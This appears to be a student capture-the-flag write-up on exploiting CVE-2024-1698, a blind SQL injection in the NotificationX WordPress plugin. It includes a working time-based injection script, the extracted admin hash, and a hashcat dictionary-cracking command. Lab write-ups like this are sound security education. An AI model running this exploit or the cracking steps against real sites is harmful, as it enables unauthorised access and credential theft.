



# CTF Week #8 (SQL Injection)

## Recognition

In this CTF, the goal was to extract the admin password of a given WordPress website.

The website is hosted at http://44.242.216.18:5008. After accessing, we see the welcome page of the website of "SecureHosting", which points that they use high security technologies. Not much is very relevant in this page aside from a push notification on the right left corner, about a comment from a "concerned-hacker".

<p align="center" justify="center">
  
</p>

The comment is on a post made by the admin. According to this user, they have cracked the admin password from the "n00b security firm" admin, and they point that the admin password starts with `$P$B`. They also put a link to the videoclip of the song [We Will Rock You](https://www.youtube.com/watch?v=-tJYN-eG1zk), by Queen.
The visitor can also leave a reply but, besides that, nothing major is found.

<p align="center" justify="center">
  
</p>

## CVE Research

We started by gathering information about the website, specifically the installed software. To gather additional information, we used the `wpscan` tool with the command: `wpscan --url http://44.242.216.18:5008/`.

The output, with irrelevant parts omitted for clarity, is shown below:

```
[+] URL: http://44.242.216.18:5008/ [44.242.216.18]
[+] Started: Sat Nov 16 22:22:53 2024

Interesting Finding(s):

[+] WordPress version 6.7 identified (Latest, released on 2024-11-12).
 | Found By: Rss Generator (Passive Detection)
 |  - http://44.242.216.18:5008/feed/, <generator>https://wordpress.org/?v=6.7</generator>
 |  - http://44.242.216.18:5008/comments/feed/, <generator>https://wordpress.org/?v=6.7</generator>
 |  - http://44.242.216.18:5008/sample-page/feed/, <generator>https://wordpress.org/?v=6.7</generator>

[i] Plugin(s) Identified:

[+] notificationx
 | Location: http://44.242.216.18:5008/wp-content/plugins/notificationx/
 | Last Updated: 2024-10-27T10:43:00.000Z
 | [!] The version is out of date, the latest version is 2.9.2
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 2.8.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://44.242.216.18:5008/wp-content/plugins/notificationx/README.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://44.242.216.18:5008/wp-content/plugins/notificationx/README.txt

```

As we can see, the `wpscan` tool identified that the NotificationX plugin was outdated (latest version: 2.9.2), which presented a possible attack vector.

Using the [CVE database](https://cve.mitre.org/), we queried for vulnerabilities affecting:

* WordPress version 6.7
* NotificationX version 2.8.1
* SQL Injection 

Performing this search, the most relevant vulnerability is `CVE-2024-1698`, which is a known vulnerability with a 9.8 CRITICAL CVSS score, that works on NotificationX plugin for WordPress in all versions up to and including 2.8.2 (patched in 2.8.3). The plugin is vulnerable to SQL Injections via the `type` parameter on the `notificationx/v1/analytics` endpoint.

This vulnerability can be used to obtain any information from the website database, but normally servers store the hash from the password instead of the password itself, so it is important to understand what hash policy do they use. The only type of information we currently have is that the admin password starts with `$P$B`. We can verify, after a quick Google search, we verify that the hash matches a [phpass](https://www.onlinehashcrack.com/how-phpass-hashing-algorithm-works.php) ("Portable PHP password hashing framework") hash, which is commonly used for PHP applications, including WordPress websites, and use the prefix `$P$` or `$H$` to identify the hash algorithm.

## Exploit

To exploit the vulnerability, we used the script found in this [GitHub repository](https://github.com/shanglyu/CVE-2024-1698).

#### Explanation

The exploit works by using blind SQL injection with a timing-based side-channel to infer information about the database. The vulnerability lies in the `type` parameter, which is passed into an SQL query without proper sanitization.

The attacker sends payloads that include the `SLEEP()` function to create a delay if a condition is true.
```sql
IF(ASCII(SUBSTRING((SELECT user_pass FROM wp_users WHERE id=1), <letter_position>, 1))=<letter>, SLEEP(10), NULL)-- -
```
It checks if `<letter_position>` character of the admin's password hash has an ASCII value `<letter>`, and, if it is true, it will perform a 10 second delay. Therefore, by going through each ASCII character in in creasing order, and assuming that the delay time is not reached with the previous requests, we character that matches the one in the database text will be the one being processed when the end of the delay is reached. The code from the repository automates this process.

The code for the attack is shown below: 
> Note: We changed the delay from `0.3` to `10`, since the server was relatively slow to respond, which made the assumption we mentioned previously not hold and the script guess the wrong characters.

```py
import requests
from sys import exit

delay_time = 10

url = "http://44.242.216.18:5008/wp-json/notificationx/v1/analytics"

session = requests.Session()

query_user = "SELECT user_login FROM wp_users WHERE id=1"
query_pass = "SELECT user_pass FROM wp_users WHERE id=1"

def get_data(query,field_name):
    result = ""
    for char_position in range(1,40):
        for ascii_value in range(256):
            payload = {
                "nx_id" : 10,
                "type" : f"clicks`=IF(ASCII(SUBSTRING(({query}),{char_position},1)) = {ascii_value}, sleep({delay_time}),null)-- -"
            }
            response = session.post(url, data=payload)
            
            if response.elapsed.total_seconds() > delay_time:
                result += chr(ascii_value)
                print(result)
                if ascii_value == 0: #null byte
                    print(f"[*]{field_name} : {result}")
                    return result
                break

username = get_data(query_user, "Username")
password_hash = get_data(query_pass, "Password hash")
```

The script gave the following output:

<p align="center" justify="center">
  
</p>

Here, we can see that the hashed admin's password is `$P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10`.

## Reversing the Hash

Now that we know the password hash, we need to use it to find the password. Since we are talking about a phpass hash, we can use a program like `hashcat`, an advanced password recovery utility, which allows to reverse hashes through multiple methods.

We could try to perform a brufe-force attack, which would be inefficient. Instead, we can perform a dictionary attack to test for common password. As hinted in the hacker comment, we can use the `rockyou.txt` dictionary for this purpose, which we downloaded from this [link](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

From there, we placed the hash inside the file `hash.txt` and executed the following command: 

```bash
hashcat -O -m 400 -a 0 -o cracked.txt hash.txt rockyou.txt
```

The used flags signify:

  - `-O`: Enable optimized kernels (which limits password lengths)
  - `-m 400`: Specify the phpass hash type
  - `-a 0`: Perform a dictionary based attack
  - `-o cracked.txt`: Place the found password in the file `cracked.txt`

After executing the command, we find the admin password and successfully complete the CTF!

<p align="center" justify="center">
    
</p>